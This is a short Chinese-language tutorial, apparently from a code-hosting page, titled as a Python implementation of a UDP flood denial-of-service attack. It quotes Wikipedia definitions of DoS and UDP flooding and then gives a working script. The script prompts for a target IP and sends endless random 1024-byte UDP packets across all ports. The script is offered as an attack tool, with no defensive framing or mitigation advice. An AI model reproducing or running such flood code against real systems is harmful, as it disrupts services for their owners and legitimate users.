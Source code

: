 # Python 实现 DoS 攻击 —— UDP洪水攻击

## DoS 攻击

> **拒绝服务攻击**（denial-of-service attack，简称**DoS攻击**）亦称**洪水攻击**，是一种网络攻击手法，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。
>
> ——维基百科

## UDP洪水攻击

> **UDP洪水攻击**（User Datagram Protocol floods）：UDP（用户数据报协议）是一种无连接协议，当数据包通过UDP发送时，所有的数据包在发送和接收时不需要进行握手验证。当大量UDP数据包发送给受害系统时，可能会导致带宽饱和从而使得合法服务无法请求访问受害系统。遭受DDoS UDP洪泛攻击时，UDP数据包的目的端口可能是随机或指定的端口，受害系统将尝试处理接收到的数据包以确定本地运行的服务。如果没有应用程序在目标端口运行，受害系统将对源IP发出ICMP数据包，表明“目标端口不可达”。某些情况下，攻击者会伪造源IP地址以隐藏自己，这样从受害系统返回的数据包不会直接回到僵尸主机，而是被发送到被伪造地址的主机。有时UDP洪泛攻击也可能影响受害系统周围的网络连接，这可能导致受害系统附近的正常系统遇到问题。然而，这取决于网络体系结构和线速。
>
> ——维基百科

## 代码实现

为了达到攻击效果，我们需要向网络上的目标主机不断发送UDP请求。

```python
from socket import *
import random

# 创建 socket 关键字
st = socket(AF_INET, SOCK_DGRAM)
# 创建随机报文数据
bytes = random._urandom(1024)

ip = input("IP Target :")
port = 1
sent = 0

print("UDP flood attack is about to begin...")

while True:
    # 发送数据
    st.sendto(bytes, (ip, port))
    sent += 1
    port += 1
    print("Sent %s packet to %s throught port:%s" % (sent, ip, port))
    if port == 65534:
        port = 1
```


